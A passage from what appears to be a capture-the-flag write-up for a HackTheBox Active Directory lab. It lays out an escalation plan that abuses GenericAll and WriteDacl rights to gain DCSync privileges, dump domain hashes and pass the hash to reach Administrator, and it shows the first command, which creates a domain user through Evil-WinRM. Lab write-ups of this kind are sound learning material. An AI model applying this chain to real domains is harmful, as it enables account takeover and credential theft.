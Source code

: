 ![](Pasted%20image%2020240813224724.png)

7. The **ACCOUNT OPERATOR** has a **GenericAll** Privileges to the group **EXCHANGE WINDOWS PERMISSION** which has a **WriteDacl** permission to **HTB.Local**. This is an important thing to note here. 

##### Attack Plan
1. We will create a new user on the domain. This is possible because the user svc-alfresco is a member of the group **ACCOUNT OPERATOR**
2. Add the new user into **Exchange Windows Permission Group**. This is possible because the user svc-alfresco has the GenericAll rights Exchange Windows Permission Group.
3. Assign the DcSync Privileges. This is possible because the user is now part of **Exchange Windows Permission Group** which has **WriteDACL** permission on the HTB.Local Domain. 
4. Perform the DcSync Attack and dump the hashes of all the users in the domain.
5. Perform the Pass The Hash attack to get access to the administrator's account.

### Let's Attack

Creating New USer
```
*Evil-WinRM* PS C:\tmp> net user forest_pwn password /add /domain
The command completed successfully.

*Evil-WinRM* PS C:\tmp> net users /domain
User accounts for \\
-------------------------------------------------------------------------------
$331000-VK4ADACQNUCA     Administrator            andy
DefaultAccount           forest_pwn               Guest
HealthMailbox0659cc1     HealthMailbox670628e     HealthMailbox6ded678
HealthMailbox7108a4e     HealthMailbox83d6781     HealthMailbox968e74d
HealthMailboxb01ac64     HealthMailboxc0a90c9     HealthMailboxc3d7722
HealthMailboxfc9daad     HealthMailboxfd87238     krbtgt
lucinda                  mark                     santi
sebastien                SM_1b41c9286325456bb     SM_1ffab36a2f5f479cb
SM_2c8eef0a09b545acb     SM_681f53d4942840e18     SM_75a538d3025e4db9a
SM_7c96b981967141ebb     SM_9b69f1b9d2cc45549     SM_c75ee099d0a64c91b
SM_ca8c2ed5bdab4dc9b     svc-alfresco
The command completed with one or more errors.
```

